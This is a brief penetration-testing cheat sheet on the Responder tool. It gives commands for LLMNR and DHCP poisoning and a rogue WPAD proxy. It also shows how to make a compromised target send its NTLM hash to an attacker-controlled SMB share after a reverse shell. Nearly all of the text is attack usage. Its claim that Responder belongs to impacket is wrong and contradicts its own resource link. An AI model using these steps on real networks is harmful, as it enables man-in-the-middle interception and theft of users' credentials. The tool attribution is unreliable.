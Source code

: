 # Responder

Responder is a part of [impacket](https://github.com/fortra/impacket) toolkit and we will use it to respond to LLMNR requests 

## Usage


```bash
sudo Responder -I eth0 -dwv

-I # interface 
-w # Start the WPAD rogue proxy server
-d # Enable answers for DHCP broadcast requests.
-v # verbose, shows hash twice 

## Getting users hash after getting shell
```

```powershell
# you can get user ntlm hash after getting reverse shell on a target using responder and sending gci command 

sudo responder -I eth0 # on attacker
gci \\10.10.10.10\test\test # on target

```


---
Tags: #responder #smb_relay #mimt6 #MITM 
Resources:[Responder_github](https://github.com/SpiderLabs/Responder)